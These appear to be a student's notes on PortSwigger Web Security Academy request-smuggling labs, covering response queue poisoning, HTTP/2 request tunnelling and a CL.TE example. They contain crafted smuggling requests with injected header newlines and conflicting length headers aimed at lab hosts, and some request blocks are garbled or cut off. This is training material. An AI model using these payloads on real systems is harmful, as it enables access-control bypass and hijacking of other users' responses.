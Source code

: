 To solve the lab, delete the user `carlos` by using [response queue poisoning](https://portswigger.net/web-security/request-smuggling/advanced/response-queue-poisoning) to break into the admin panel at `/admin`. An admin user will log in approximately every 10 seconds.
The connection to the back-end is reset every 10 requests, so don't worry if you get it into a bad state - just send a few normal requests to get a fresh connection.
#### Note
This lab supports HTTP/2 but doesn't advertise this via ALPN. To send HTTP/2 requests using Burp Repeater, you need to enable the [Allow HTTP/2 ALPN override](https://portswigger.net/burp/documentation/desktop/http2#allow-http-2-alpn-override)
Tip:
>To inject newlines into HTTP/2 headers, use the Inspector to drill down into the header, then press the `Shift + Return` keys. Note that this feature is not available when you double-click on the header.
---
GET /  HTTP/1.1
Host:  accf1f361e00dc5fc008caa50018008a.web-security-academy.net
Foo: bar^~Host: accf1f361e00dc5fc008caa50018008a.web-security-academy.net  ^~^ GET /robots.txt HTTP/1.1*~Foo: bar
:method  GET
: path/
:authority  accf1f361e00dc5fc008caa50018008a.web-security-academy.net
foo bar  
      Host: accf1f361e00dc5fc008caa50018008a.web-security-academy.net
  
      GET /robots.txt HTTP/1.1  
      X-Ignore: x
then use the custom python intruder
---
 ### Bypassing access controls via HTTP/2 request tunnelling
This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests and fails to adequately sanitize incoming header names. To solve the lab, access the admin panel at `/admin` as the `administrator` user and delete `carlos`.
The front-end server doesn't reuse the connection to the back-end, so isn't vulnerable to classic request smuggling attacks. However, it is still vulnerable to [request tunnelling](https://portswigger.net/web-security/request-smuggling/advanced/request-tunnelling).
The front-end server appends a series of [client authentication headers](https://portswigger.net/web-security/request-smuggling/exploiting#bypassing-client-authentication) to incoming requests. 
You need to find a way of leaking these.
-----------------------
# Prep for presentation:
Testing for CL.TE :  the front end server checks Content-Length
The backend server prioritizes the Transfer-Encoding header : Chuncked 
and ignores the Content-Length
![[REQUEST_SMUGGLING_BREAKDOWN_BLACKBOARD.png]]
![](file:///home/linux/Pictures/HTTP_REQ_SMUGGLING_Whiteboard.png)
## Same concept then when requesting an admin endpoint
1st request
```
POST / HTTP/1.1
Host: acb01f791f358360c0f7901000650001.web-security-academy.net
Cookie: session=eu4TfRuSOBg8KLcGj6LaQE6C3gVsh6Ec
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 45
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
tRANSFER-ENCODING: chunked

3
```